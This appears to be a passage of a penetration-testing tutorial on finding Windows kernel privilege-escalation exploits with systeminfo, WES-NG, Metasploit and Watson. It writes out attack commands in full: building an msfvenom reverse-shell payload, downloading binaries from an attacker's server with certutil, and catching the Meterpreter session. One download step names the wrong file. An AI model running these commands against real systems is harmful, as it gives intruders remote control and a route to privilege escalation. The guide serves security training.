### **Manual enumeration**

1.  Use the `systeminfo` command to collect detailed information about the system, including the OS version, system architecture, and installed hotfixes (KBs).  
    `systeminfo`

    
    
    **Note:** In the provided output, we can identify the system as Windows 7 Pro – Build 7601 – x64-based (64-bit). It also shows that three hotfixes have been installed on this host.
    
2.  To obtain more details about the installed hotfixes, use:  
    `wmic qfe get Caption,Description,HotFixID,InstalledOn`  
    
    

    **Note:** Microsoft has shifted away from using MS bulletin numbers (e.g., “MS17-010”) to reference vulnerabilities. Since late 2017/early 2018, Microsoft uses the CVE (Common Vulnerabilities and Exposures) system. Modern kernel exploits are labeled with CVE-20XX-XXXX identifiers.
    

### **Enumerating with Windows Exploit Suggester (WES-NG)**

1.  Run the `systeminfo` command on the target machine to gather system information. Copy the output and save it to a TXT file on the attacker machine.  
    
    
    
2.  Update the WES-NG database to ensure the latest exploits are available:  
    `python3 wes.py --update`  
    
    
    
3.  Analyze the system information to identify potential kernel exploits:  
    `python3 wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only`  
    
    
    

### **Enumerating with Metasploit**

1.  Generate a reverse TCP Meterpreter payload for the target’s architecture (x86 or x64) and save it as an executable:  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP-ADDRESS] LPORT=1337 -f exe > shell-x64.exe`  
    
    

    **Note:** Metasploit includes a built-in Local Exploit Suggester module that can help identify kernel exploits.
    
2.  Host the payload binary using a Python HTTP server and transfer it to the target with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/accesschk64.exe accesschk64.exe`  
    
    
    
3.  On the attacker machine, start a multi-handler listener in Metasploit:  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 1337; run"`  
    
    
    
4.  Execute the reverse shell binary on the target to establish a Meterpreter session:  
    `.\shell-x64.exe`  
    
    
    
5.  Load the Local Exploit Suggester in Metasploit:  
    
    ```
    background
    search suggester
    use 0
    set SESSION 1
    exploit
    ```
    
    
    
6.  After about a minute, Metasploit will provide a list of potential kernel exploits for the host.  
    
    

### **Enumerating with Watson**

1.  Transfer Watson to the target using any file transfer method (see File Transfer section). Example using `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/Watson.exe Watson.exe`  
    
    

    **Note:** Watson supports multiple versions of Windows 10 (1507, 1511, 1607, 1703, 1709, 1803, 1809, 1903, 1909, 2004) and Windows Server (2016 & 2019).
    
2.  Execute Watson on the target and review the output:  
    `.\Watson.exe`